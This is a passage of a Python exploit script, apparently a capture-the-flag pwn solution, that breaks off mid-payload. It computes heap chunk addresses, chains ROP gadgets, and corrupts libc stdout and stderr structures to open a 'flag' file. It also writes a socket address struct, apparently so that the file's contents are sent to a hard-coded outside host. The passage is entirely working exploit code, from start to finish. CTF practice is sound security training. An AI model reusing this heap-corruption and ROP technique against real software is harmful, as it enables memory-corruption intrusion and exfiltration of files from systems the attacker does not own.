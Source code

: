 ```python
add() #5
chunk1_addr=heap_addr+0x1100
chunk2_addr=heap_addr+0x1330
chunk3_addr=heap_addr+0x1560
chunk4_addr=heap_addr+0x1790
chunk5_addr=heap_addr+0x19c0
sock_addr=chunk1_addr+0x1d0
bss=0x4061D0
pop_rsp=0x000000000040284e #0x0000000000402577 : pop rsp ; pop r13 ; pop rbp ; ret

pop_rdi=0x0000000000027765
pop_rsi=0x0000000000028f19
pop_rdx=0x00000000000fdcfd
pop_rdx_rcx_rbx=0x00000000000edc7f #: pop rdx ; pop rcx ; pop rbx ; ret

pop_rbp=0x004030ea#: pop rbp; ret;
mov_rax=0x00000000004030e2# :# mov rax, qword ptr [rbp - 8] ; mov rax, qword ptr [rax + 0x10] ; pop rbp ; ret 
jmp_rax=0x00402dbe# jmp rax;
flag_addr=heap_addr+0x1100+0x30
payload=b'a'*0x3+p64(stdout_addr)+b'a'*(0x2d-0x28)+p64(0x4061A0-0x10)*3+p64(stdout_addr-0x10)+b"flag\x00\x00\x00\x00"+p64(stdout_addr+0x3d)
payload+=flat([
    modify(stderr_addr, pop_rdi- libc.sym['_IO_2_1_stderr_']),
	p64(pop_rbp),
	p64(flag_addr-0x18),
	p64(mov_rax),
	p64(0),
	p64(jmp_rax),
	p64(flag_addr),
	modify(stderr_addr, pop_rsi- pop_rdi),
	p64(pop_rbp),
	p64(flag_addr-0x18),
	p64(mov_rax),
	p64(0),
	p64(jmp_rax),
	p64(0),
	modify(stderr_addr, pop_rdx-0x111111-pop_rsi),
    modify(stderr_addr, 0x111111),
	p64(pop_rbp),
	p64(flag_addr-0x18),
	p64(mov_rax),
	p64(0),
	p64(jmp_rax),
	p64(0),
	modify(stdout_addr, libc.sym['open']- libc.sym['_IO_2_1_stdout_']),
	p64(pop_rbp),
	p64(flag_addr),
	p64(mov_rax),
	p64(0),
	p64(jmp_rax),
	p64(pop_rsp),
	p64(chunk2_addr-0x8+0x30)	
])
payload=payload.ljust(0x1d0,b"\x00")
edit_func(1,payload)
edit_func1(1,0x1d0,p64(0xa2217c70b8220002).ljust(16, b'\x00')) #socket struct
payload1=b'a'*0x30+flat([
    modify(stderr_addr, pop_rdi-pop_rdx),
	p64(pop_rbp),
	p64(flag_addr-0x18),
	p64(mov_rax),
	p64(0),
```